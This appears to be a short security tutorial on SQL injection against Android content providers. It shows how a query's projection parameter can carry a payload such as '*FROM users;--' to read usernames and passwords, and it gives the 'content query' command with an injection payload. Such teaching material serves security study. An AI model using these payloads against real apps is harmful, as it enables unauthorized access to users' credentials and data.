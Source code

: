 ___

#### SQLi on Content Provider s

 - For accessing DATA applications request content provider with a query method to return cursor
 - The query method contains multiple parameters such as `Uri, projection, selection, selectionArgs, sortOrder` etc.
 - This will be made into an sql statement like this one:
```sql
 SELECT projection FROM table_name WHERE selection=selectionArgs ORDER BY   sortOrder
```

- let's take a scenario where an app is requesting for some news data :
```
Query{
Uri,            content://com.example.appp/news
projection,     Payload 
selection,      null 
selectionArgs,  null 
sortOrder,      null 
}
```

-  the sql statement for that will be: 
```sql
 SELECT projection FROM Uri WHERE null=null ORDER BY  null
```

-  the simplified statement will be: 
```sql
SELECT projection FROM uri
```

 
-  here we are going to access users table instead of news to get passwords, let's see how to do that

- remember we gave the projection variable the name payload now we are substituting a real sqli payload to the statement
```sql
SELECT *FROM users;-- FROM uri
```

-  the statement after -- will be ignored and the query will now return us the usernames and passwords from users table.

- we can use command line to access content providers using this command:
 ```
content query --url content://com.example.appp/table_name
```

- We can put this to practical use:
```
content query --url content://com.example.appp/table_name --projection "sql_payload (eg: *From keys--)"
```

